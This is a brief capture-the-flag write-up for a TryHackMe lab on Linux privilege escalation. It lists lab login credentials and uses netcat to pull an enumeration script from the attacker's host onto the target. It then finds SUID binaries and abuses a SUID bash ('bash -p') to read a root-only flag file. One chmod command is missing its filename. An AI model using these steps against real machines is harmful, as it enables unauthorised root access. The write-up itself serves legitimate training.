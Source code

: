 # The Rogue Gnome

Before we begin, we're going to need to deploy two Instances:

	1. The THM AttackBox by pressing the "Start AttackBox" button at the top-right of the page.
	2. The vulnerable Instance attached to this task by pressing the "Deploy" button at the top-right of this task/day.

- What type of privilege escalation involves using a user account to execute commands as an administrator?

	- `vertical`

- What is the name of the file that contains a list of users who are a part of the sudo group?


	- `sudoers`

- Use SSH to log in to the vulnerable machine like so: ssh cmnatic@MACHINE_IP
Input the following password when prompted: aoc2020

	no answer needed

- Enumerate the machine for executables that have had the SUID permission set. Look at the output and use a mixture of GTFObins and your researching skills to learn how to exploit this binary.
You may find uploading some of the enumeration scripts that were used during today's task to be useful.

	no answer needed

	- On your machine `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`
	- `nc -lvnp 4444 < linEnum.sh`
	- On target `nc -w 3 <YOUR_IP> 4444 > linEnum.sh`
	- On target `chmod +x && ./linEnum.sh`
	- We can see there is `/bin/bash`. Good.
	- This could be done also with `find / -perm -u=s -type f 2>/dev/null`
	- On target `bash -p`
	- `cat /root/flag.txt`

- Use this executable to launch a system shell as root.
What are the contents of the file located at /root/flag.txt?

	- `thm{*****************}`





## see you ...
